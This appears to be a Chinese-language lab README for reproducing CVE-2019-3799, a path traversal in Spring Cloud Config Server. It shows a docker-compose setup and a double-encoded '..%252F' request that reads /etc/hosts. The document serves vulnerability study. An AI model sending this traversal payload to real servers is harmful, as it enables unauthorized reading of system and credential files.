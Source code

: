 ## Spring Cloud Config Server 路径穿越与任意文件读取 【CVE-2019-3799】


## 测试环境

```
docker-compose up -d
```
环境启动后，访问http://ip:38091

## 漏洞复现

我这里使用的是https://github.com/spring-cloud-samples/config-repo

访问http://loneyer:38091/foo/default/master/logtest.yml

![1.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/spring/CVE-2019-3799/1.png)

> http://loneyer:38091/foo/default/master/..%252F..%252F..%252F..%252F..%252F..%252Fetc%252fhosts

![2.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/spring/CVE-2019-3799/2.png)

